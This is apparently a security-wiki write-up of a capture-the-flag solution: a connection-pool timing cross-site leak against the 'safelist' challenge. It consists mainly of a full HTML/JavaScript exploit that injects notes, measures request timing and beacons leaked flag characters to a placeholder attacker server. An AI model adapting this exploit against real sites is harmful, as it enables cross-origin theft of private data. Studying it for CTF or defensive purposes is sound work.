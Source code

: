 # Connection Pool by Destination Example
{{#include /banners/hacktricks-training.md}}


{{#include ../../banners/hacktricks-training.md}}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Let's see how this exploit work:

- The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
- Then, the attacker will **remove** the **note** with index 1.
- Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.
  - If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

> [!TIP]
> Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code

```html
<html>
  <head>
    <script>
      const SITE_URL = "https://safelist.ctf.sekai.team/"
      const PING_URL = "https://myserver"
      function timeScript() {
        return new Promise((resolve) => {
          var x = document.createElement("script")
          x.src =
            "https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
          var start = Date.now()
          x.onerror = () => {
            console.log(`Time: ${Date.now() - start}`) //Time request
            resolve(Date.now() - start)
            x.remove()
          }
          document.body.appendChild(x)
        })
      }

      add_note = async (note) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "create"
        x.method = "POST"
        x.target = "xxx"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "text"
        i.value = note
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      remove_note = async (note_id) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "remove"
        x.method = "POST"
        x.target = "_blank"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "index"
        i.value = note_id
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
      // }zyxwvutsrqponmlkjihgfedcba_
      const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
      var prefix = "SEKAI{xsleakyay"
      const TIMEOUT = 500
      async function checkLetter(letter) {
        // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
        // Depending whether we found flag's letter it will either load the images or not.
        // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
        const payload =
          `${prefix}${letter}` +
          Array.from(Array(78))
            .map((e, i) => `<img/src=/js/purify.js?${i}>`)
            .join("")
        await add_note(payload)
        await sleep(TIMEOUT)
        await timeScript()
        await remove_note(1) //Now, only the note with the flag or with the injection existsh
        await sleep(TIMEOUT)
        const time = await timeScript() //Find out how much a request to the same origin takes
        navigator.sendBeacon(PING_URL, [letter, time])
        if (time > 100) {
          return 1
        }
        return 0
      }
      window.onload = async () => {
        navigator.sendBeacon(PING_URL, "start")
        // doesnt work because we are removing flag after success.
        // while(1){
        for (const letter of alphabet) {
          if (await checkLetter(letter)) {
            prefix += letter
            navigator.sendBeacon(PING_URL, prefix)
            break
          }
        }
        // }
      }
    </script>
  </head>
  <body></body>
</html>
```

{{#include ../../banners/hacktricks-training.md}}
